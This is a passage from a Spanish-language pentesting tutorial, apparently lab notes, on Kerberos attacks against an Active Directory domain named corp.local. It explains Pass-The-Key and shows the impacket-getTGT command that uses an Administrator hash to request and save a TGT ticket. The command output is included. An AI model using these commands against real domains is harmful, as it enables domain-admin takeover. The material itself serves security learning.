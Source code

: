 Pero esta tecnica que cabamos de utilizar con el `hash` de `kerberos` del `AES-256` se le llama `Pass-The-Key`.

Si queremos obtener el `TGT` del `administrador` como hemos echo con `Rubeus` pero en `kali` lo podremos hacer de la siguiente forma:

```shell
nano /etc/hosts

#Dentro del nano
192.168.5.5           corp.local
```

Lo guardamos y ejecutamos lo siguiente:

```shell
impacket-getTGT corp.local/Administrator -hashes :a87f3a337d73085c45f9416be5787d86
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Administrator.ccache
```

Vemos que se guardo correctamente, ahora si lo leemos nos apareceran caractares raros, pero es por que nos ha volcado el `TGT` en un archivo directamente, en vez de por la pantalla.
